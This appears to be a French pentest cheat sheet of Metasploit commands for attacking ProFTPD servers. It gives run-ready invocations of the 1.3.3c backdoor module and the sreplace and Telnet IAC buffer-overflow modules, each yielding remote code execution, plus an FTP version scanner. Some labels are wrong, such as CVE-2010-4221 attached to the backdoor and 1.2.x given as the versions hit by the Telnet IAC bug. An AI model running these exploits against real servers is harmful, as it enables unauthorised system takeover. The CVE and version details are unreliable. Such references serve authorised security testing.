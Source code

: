 #### 🔥 exploit/unix/ftp/proftpd_133c_backdoor
```bash
# ProFTPD 1.3.3c Backdoor (CVE-2010-4221)
use exploit/unix/ftp/proftpd_133c_backdoor
set RHOSTS <target>
set RPORT 21
check                    # Vérifier la vulnérabilité
exploit
```

**Détails :**
- **Vulnérabilité** : Backdoor dans ProFTPD 1.3.3c
- **Impact** : RCE avec privilèges du service FTP
- **Conditions** : Version spécifique 1.3.3c compromise

#### 🔥 exploit/linux/ftp/proftp_sreplace
```bash
# ProFTPD sreplace Buffer Overflow
use exploit/linux/ftp/proftp_sreplace
set RHOSTS <target>
set RPORT 21
show targets             # Voir les cibles disponibles
set TARGET <target_id>
exploit
```

**Détails :**
- **Vulnérabilité** : Buffer overflow dans la fonction sreplace
- **Impact** : RCE avec privilèges utilisateur
- **Versions affectées** : ProFTPD < 1.3.0

#### 🔥 exploit/linux/ftp/proftp_telnet_iac
```bash
# ProFTPD Telnet IAC Buffer Overflow
use exploit/linux/ftp/proftp_telnet_iac
set RHOSTS <target>
set RPORT 21
show options
exploit
```

**Détails :**
- **Vulnérabilité** : Buffer overflow via commandes Telnet IAC
- **Impact** : RCE complet
- **Versions affectées** : ProFTPD 1.2.x

### 📊 Modules auxiliaires spécialisés

#### 🔍 auxiliary/scanner/ftp/ftp_version
```bash
# Détection de version détaillée
use auxiliary/scanner/ftp/ftp_version
set RHOSTS <target>
set RPORT 21
run
```

